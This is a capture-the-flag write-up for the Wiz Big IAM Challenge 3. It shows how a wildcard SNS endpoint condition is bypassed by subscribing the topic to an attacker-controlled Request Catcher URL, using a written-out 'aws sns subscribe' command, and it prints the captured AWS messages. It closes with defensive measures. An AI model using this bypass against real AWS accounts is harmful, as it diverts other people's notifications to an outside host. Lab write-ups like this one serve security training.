 # Writeup for Big IAM Challenge: Challenge 3

# Challenge number

    3

## Challenge Statement

The objective of this challenge was to exploit overly permissive SNS (Simple Notification Service) policies, subscribe to a topic, and capture the flag by analyzing messages received via the topic.

## IAM Policy

```
{
    "Version": "2008-10-17",
    "Id": "Statement1",
    "Statement": [
        {
            "Sid": "Statement1",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": "SNS:Subscribe",
            "Resource": "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
            "Condition": {
                "StringLike": {
                    "sns:Endpoint": "*@tbic.wiz.io"
                }
            }
        }
    ]
}
```

### Short analysis about the IAM policy

```
* What do I have access to?
  - The policy allows anyone (Principal: "*") to subscribe to the TBICWizPushNotifications SNS topic as long as the subscription endpoint matches *@tbic.wiz.io.

* What don't I have access to?
  - The policy does not grant access to publish messages or manage the topic itself, limiting interaction to subscribing and receiving notifications.

* What do I find interesting?
  - The condition in the policy (sns:Endpoint: "*@tbic.wiz.io") limits subscriptions to specific email addresses, but it’s still overly permissive, allowing external users with matching domains to exploit this.
```

## Solution

Step 1: Set Up a Custom Endpoint
To bypass the sns:Endpoint condition, I utilized Request Catcher (https://requestcatcher.com/). I created a custom catcher endpoint:

    https://srush.requestcatcher.com/

This endpoint could receive and log HTTP requests, allowing me to intercept messages sent by SNS.

Step 2: Subscribed to the SNS Topic
Using the custom endpoint, I executed the following command to subscribe to the TBICWizPushNotifications SNS topic:

    aws sns subscribe \
        --topic-arn arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications \
        --protocol https \
        --notification-endpoint 'https://srush.requestcatcher.com/test@tbic.wiz.io'

    The command returned a Subscription ARN, confirming that the subscription request was successful.

Step 3: Confirmed the Subscription
Step 3: Confirmed the Subscription
After running the aws sns subscribe command, the response indicated the subscription was in a "pending confirmation" state:

{
"SubscriptionArn": "pending confirmation"
}
To confirm the subscription, I checked the logs of my Request Catcher endpoint (https://srush.requestcatcher.com/test@tbic.wiz.io). The logs showed an HTTP POST request containing the SubscriptionConfirmation message, as shown below:

```
POST /test@tbic.wiz.io HTTP/1.1
Host: srush.requestcatcher.com
Accept-Encoding: gzip,deflate
Connection: Keep-Alive
Content-Length: 1623
Content-Type: text/plain; charset=UTF-8
User-Agent: Amazon Simple Notification Service Agent
X-Amz-Sns-Message-Id: 2cbb4f40-6af8-4e2c-ad1c-c337328bb9fd
X-Amz-Sns-Message-Type: SubscriptionConfirmation
X-Amz-Sns-Topic-Arn: arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications

{
  "Type" : "SubscriptionConfirmation",
  "MessageId" : "2cbb4f40-6af8-4e2c-ad1c-c337328bb9fd",
  "Token" : "2336412f37fb687f5d51e6e2425a8a58714989472d236a6cba8478a654dc0e7f80161c55d6a73bf77ee9560b99fe7f6749fc26b2b0186453c7abd48bd7e0ecda3dd2e3267e6349e30e3d50b8f2286b082d53fa789a2663a66d46b95d85fd56176923ac0799789cd4cc02ff58f36808e90b1b9367c30ba0b398b461a37963e9ed",
  "TopicArn" : "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
  "Message" : "You have chosen to subscribe to the topic arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications.\nTo confirm the subscription, visit the SubscribeURL included in this message.",
  "SubscribeURL" : "https://sns.us-east-1.amazonaws.com/?Action=ConfirmSubscription&TopicArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications&Token=2336412f37fb687f5d51e6e2425a8a58714989472d236a6cba8478a654dc0e7f80161c55d6a73bf77ee9560b99fe7f6749fc26b2b0186453c7abd48bd7e0ecda3dd2e3267e6349e30e3d50b8f2286b082d53fa789a2663a66d46b95d85fd56176923ac0799789cd4cc02ff58f36808e90b1b9367c30ba0b398b461a37963e9ed",
  "Timestamp" : "2025-01-25T16:09:23.224Z",
  "SignatureVersion" : "1",
  "Signature" : "k90wEAyUHIGHx0SOtDqiz4Wnft/Je+Nr5c3x6RHpKI2maYiiX0fKvCrMGyjC6zyiaDvbJgmLg2iMzfnvSogoie0lN6SfzN8j+RiFIhXa4B9KljZyTVmNXsslvEWvt8cdH6WAnTtwoxvE1eSTOROUay7FsMTIxYnON4ljriFLCQEHY2bq9EIccexMyG9jLxxKOUXC87snLs3JsU1rgQHCii+czANp8WPjzUGh7VzcqEZV2Y7okqiuVqw5kViZ2+7GchXwdnuU9faliv+1eLsgGJUzcKKsox/dJ/FOXYTvkZRzu+ZR483DoNwnuLzD+AqbiEcHfiHXi2FNqpp6K56P2g==",
  "SigningCertURL" : "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-9c6465fa7f48f5cacd23014631ec1136.pem"
}
```

Step 4: Captured the Flag
After confirmation, I waited for notifications to be sent to the topic. Shortly after, a new request was logged in Request Catcher with the message content:

```
POST /test@tbic.wiz.io HTTP/1.1
Host: srush.requestcatcher.com
Accept-Encoding: gzip,deflate
Connection: Keep-Alive
Content-Length: 963
Content-Type: text/plain; charset=UTF-8
User-Agent: Amazon Simple Notification Service Agent
X-Amz-Sns-Message-Id: cf626a84-6014-5f7b-ae44-0a8b6c00f0f6
X-Amz-Sns-Message-Type: Notification
X-Amz-Sns-Subscription-Arn: arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications:26ec4347-b10d-4942-b797-f59fbc3a7452
X-Amz-Sns-Topic-Arn: arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications
X-Amzn-Trace-Id: Root=1-679509d4-75913e4734dcd90038c3c617;Parent=53a4b57d53b59978;Sampled=0;Lineage=1:36680206:0

{
  "Type" : "Notification",
  "MessageId" : "cf626a84-6014-5f7b-ae44-0a8b6c00f0f6",
  "TopicArn" : "arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications",
  "Message" : "{wiz:always-suspect-asterisks}",
  "Timestamp" : "2025-01-25T15:57:08.497Z",
  "SignatureVersion" : "1",
  "Signature" : "dOnhS0W5G8/DDS4GCxRTQ3IIYTlXgEHllJiL/ePM4wo1CcE2nju2YHJfbuQQ/nG+q7pk+Oi+2p32vF1FOGrE+bACdr/uEEcV4L/oglI1Uv5rx2fUUtO+9JQcf+XhceKrPlvuQywFjSBhgR2VpRwHXS9MrIiyGk4E0gQha5BJVbDPme6Li0qlVyKEx6rCA7wXt7qtWBT/1Csb4zkS+NG8KzMyjyeqSk3UY+h6kAcZXP8OqdFuI+2EEMrhBnxqSw3Ro86jIN76nngAFlgMu8l20tA4qkQ82eYPBs551om2ut7R8Z+s0F1hQANKN7zkovBS6C+a8VmEamkx8sK/nQlmKA==",
  "SigningCertURL" : "https://sns.us-east-1.amazonaws.com/SimpleNotificationService-9c6465fa7f48f5cacd23014631ec1136.pem",
  "UnsubscribeURL" : "https://sns.us-east-1.amazonaws.com/?Action=Unsubscribe&SubscriptionArn=arn:aws:sns:us-east-1:092297851374:TBICWizPushNotifications:26ec4347-b10d-4942-b797-f59fbc3a7452"
}
```

I extracted the flag from the Message field:

FLAG: {wiz:always-suspect-asterisks}

Step 5: Submitted the Flag

Finally, I inserted the flag found in the "Insert flag here" textbox and I was redirected to success screen.

## Reflection

- What was your approach?
  I bypassed the sns:Endpoint condition by using Request Catcher to simulate a valid endpoint and successfully intercepted SNS notifications.

- What was the biggest challenge?
  The challenge was ensuring that the custom endpoint met the policy's condition while being able to capture and log requests.

- How did you overcome the challenges?
  Using Request Catcher allowed me to create a compliant endpoint (https://srush.requestcatcher.com/) and efficiently capture the confirmation and notification messages.

- What led to the breakthrough?
  Understanding that sns:Endpoint conditions validate the domain pattern but do not verify endpoint ownership enabled me to bypass this restriction. Request Catcher proved to be an invaluable tool to simulate an endpoint and capture SNS traffic.

- On the Blue Side: Defensive Measures
  - Restrict the Principal: Replace Principal: "\_" with trusted roles or accounts to limit unauthorized access.
  - Use endpoint verification: Ensure that endpoints are owned or managed by the intended recipients using tokenized confirmation processes.
  - Disable overly broad conditions: Replace wildcard conditions like sns:Endpoint: "_@tbic.wiz.io" with specific allowed endpoints.
  - Monitor subscriptions and logs: Regularly audit SNS subscriptions and logs for suspicious activities.
  - Enable encryption: Use message encryption to protect sensitive data in transit.
